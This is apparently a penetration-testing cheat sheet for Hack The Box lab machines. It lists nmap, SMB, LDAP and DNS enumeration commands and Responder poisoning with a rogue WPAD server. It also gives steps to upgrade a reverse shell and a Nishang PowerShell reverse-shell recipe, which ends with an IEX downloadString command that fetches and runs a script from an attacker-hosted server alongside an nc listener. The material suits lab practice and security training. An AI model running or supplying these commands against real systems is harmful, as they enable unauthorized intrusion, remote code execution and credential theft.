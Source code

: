 
# NMAP
nmap -sC -sV -sT -oA NMAP/HTB 10.10.10.161

# FTP
ftp $targetip
Username: anonymous
Password: anything

# SMB
smbclient -N -L //10.10.10.161/
smbclient -N //10.10.10.161/Share
smbmap -H 10.10.10.161 -u anonymous -d HTB.LOCAL
smbmap -H 10.10.10.161 -u anonymous -d localhost

# LDAP
ldapsearch -x -h lightweight.htb -b "dc=lightweight,dc=htb" 

responder.oy -i eth0 -w -f

-w : WPAD rogue server
-f : This option allows you to fingerprint a host that issued an NBT-NS or LLMNR query.

# DNS
nslookup
SERVER 10.10.10.161
- 127.0.0.1
- 10.10.10.161

dnsrecon -r 127.0.0.0/24 -n 10.10.10.161
dnsrecon -r 127.0.1.0/24 -n 10.10.10.161
dnsrecon -r 10.10.10.0/24 -n 10.10.10.161

dig axfr @10.10.10.161
dig axfr bank.htb @10.10.10.161

# Upgrading Reverse Shells to be Fully Interactive
python -c "import pty; pty.spawn('/bin/bash')"
Press Ctrl+Z to background your reverse shell, then in your local machine run: 
- stty raw -echo
- fg

Type reset and hit return. You should be presented with a fully interactive shell. You’re welcome.

There’s still one little niggling thing that can happen, the shell might not be the correct height/width for your terminal. To fix this, go to your local machine and run:

stty size

This should return two numbers, which are the number of rows and columns in your terminal. For example’s sake let’s say this command returned 48 120 Head on back to your victim box’s shell and run the following.

stty -rows 48 -columns 120

# Python SERVER

python -m simpleHTTPServer

# Windows nishang shell

Linux Site:

gedit Invoke-PowerShellTcp.ps1 (Invoke-PowerShellTcp -Reverse -IPAdress 192.168.1.32 -Port 4444
python -m SimpleHTTPServer
nc -lvp 4444

Windows Site:

C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.webClient).downloadString('http://10.10.10.10:8000/Invoke-PowerShellTcp.ps1')



